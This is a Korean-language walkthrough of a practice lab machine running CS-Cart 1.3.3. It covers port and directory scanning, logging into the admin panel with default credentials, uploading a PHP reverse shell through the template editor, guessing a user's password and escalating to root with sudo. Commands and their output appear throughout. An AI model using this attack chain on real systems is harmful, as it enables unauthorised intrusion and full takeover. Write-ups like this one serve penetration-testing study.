






## 정보 수집
nmap을 통해 포트 스캔을 수행함.
```
└─$ nmap 192.168.180.39 -Pn -n --min-rate 3000 --open -oN scan
Starting Nmap 7.95 ( https://nmap.org ) at 2026-10-15 08:17 EDT
Nmap scan report for 192.168.180.39
Host is up (0.12s latency).
Not shown: 992 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds
993/tcp open  imaps
995/tcp open  pop3s

Nmap done: 1 IP address (1 host up) scanned in 0.67 seconds
```

80포트 접근 시 쇼핑몰 페이지가 확인되며, 별다른 취약점은 없었음.


gobuster를 이용해 /admin 경로를 발견.
```
└─$ gobuster dir -u http://192.168.180.39 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.180.39
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/image                (Status: 200) [Size: 1971]
/catalog              (Status: 301) [Size: 336] [--> http://192.168.180.39/catalog/]
/admin                (Status: 200) [Size: 9483]
/images               (Status: 301) [Size: 335] [--> http://192.168.180.39/images/]
/index                (Status: 200) [Size: 28074]
/skins                (Status: 301) [Size: 334] [--> http://192.168.180.39/skins/]
/core                 (Status: 301) [Size: 333] [--> http://192.168.180.39/core/]
/install              (Status: 200) [Size: 7731]
/include              (Status: 301) [Size: 336] [--> http://192.168.180.39/include/]
/classes              (Status: 301) [Size: 336] [--> http://192.168.180.39/classes/]
/config               (Status: 200) [Size: 13]
/addons               (Status: 301) [Size: 335] [--> http://192.168.180.39/addons/]
/chart                (Status: 200) [Size: 0]
/var                  (Status: 301) [Size: 332] [--> http://192.168.180.39/var/]
/payments             (Status: 301) [Size: 337] [--> http://192.168.180.39/payments/]
/init                 (Status: 200) [Size: 13]
/prepare              (Status: 200) [Size: 0]
/targets              (Status: 301) [Size: 336] [--> http://192.168.180.39/targets/]
/apache2-default      (Status: 301) [Size: 344] [--> http://192.168.180.39/apache2-default/]
/server-status        (Status: 403) [Size: 313]
Progress: 171674 / 220558 (77.84%)[ERROR] error on word Article151: timeout occurred during the request
[ERROR] error on word brighteyes: timeout occurred during the request
Progress: 220558 / 220558 (100.00%)
===============================================================
Finished
===============================================================
```

게정은 admin:admin으로 이전 페이지의 관리 페이지인 것을 확인.


/install 경로 접근하면 cs-cart의 버전 정보를 확인이 가능함.
```
└─$ curl -s http://192.168.180.39/install | grep -i version
                        <td valign="bottom"><p style="font-weight: bold; font-size: 11px;">Version:&nbsp;1.3.3&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</p></td>
```

위에서 찾은 버전을 searchsploit으로 검색해보면 RCE PoC코드가 존재하는 것을 확인.
```
└─$ searchsploit cs-cart 1.3.3
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
CS-Cart 1.3.3 - 'classes_dir' LFI                                    | php/webapps/48890.txt
CS-Cart 1.3.3 - 'classes_dir' Remote File Inclusion                  | php/webapps/1872.txt
CS-Cart 1.3.3 - 'install.php' Cross-Site Scripting                   | multiple/webapps/14962.txt
CS-Cart 1.3.3 - authenticated RCE                                    | php/webapps/48891.txt
--------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

PoC코드를 확인해보면 pentestmonkey 리버스쉘로 php확장자를 phtml로 바꾸어 파일을 업로드하라고 함.
```
└─$ cat 48891.txt        
# Exploit Title: CS-Cart authenticated RCE
# Date: 2020-09-22
# Exploit Author:  0xmmnbassel
# Vendor Homepage: https://www.cs-cart.com/e-commerce-platform.html
# Tested at: ver. 1.3.3
# Vulnerability Type: authenticated RCE

get PHP shells from
http://pentestmonkey.net/tools/web-shells/php-reverse-shell
edit IP && PORT
Upload to file manager
change the extension from .php to .phtml
visit http://[victim]/skins/shell.phtml --> Profit. ...!
```

## 초기 침투

우측 메뉴 Template editor에 접근하여 리버스쉘 업로드하면, 상단에 /skins 경로에 저장됨.



해당 경로에 접근하면 netcat을 통해 리버스쉘이 들어옴.


## 권한 상승

passwd를 통해 patrick계정을 확인.
```
www-data@payday:/$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
dhcp:x:100:101::/nonexistent:/bin/false
syslog:x:101:102::/home/syslog:/bin/false
klog:x:102:103::/home/klog:/bin/false
mysql:x:103:107:MySQL Server,,,:/var/lib/mysql:/bin/false
dovecot:x:104:111:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
postfix:x:105:112::/var/spool/postfix:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
patrick:x:1000:1000:patrick,,,:/home/patrick:/bin/bash
```

완전한 쉘로 업그레이드 한 뒤 su가 작동되었으며, patrick:patrick 계정으로 전환이 가능했음.
```
www-data@payday:/$ su patrick
su: must be run from a terminal
www-data@payday:/$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@payday:/$ su - patrick
su - patrick
Password: patrick

patrick@payday:~$ who;id
who;id
uid=1000(patrick) gid=1000(patrick) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),104(scanner),115(lpadmin),1000(patrick)
```

patrick 계정으로는 sudo의 모든 명령어를 사용 할 수 있는 것을 확인함.
```
patrick@payday:~$ sudo -l
sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for patrick:patrick

User patrick may run the following commands on this host:
    (ALL) ALL
```

sudo su 명령어로 root 계정에 접근을 성공함.

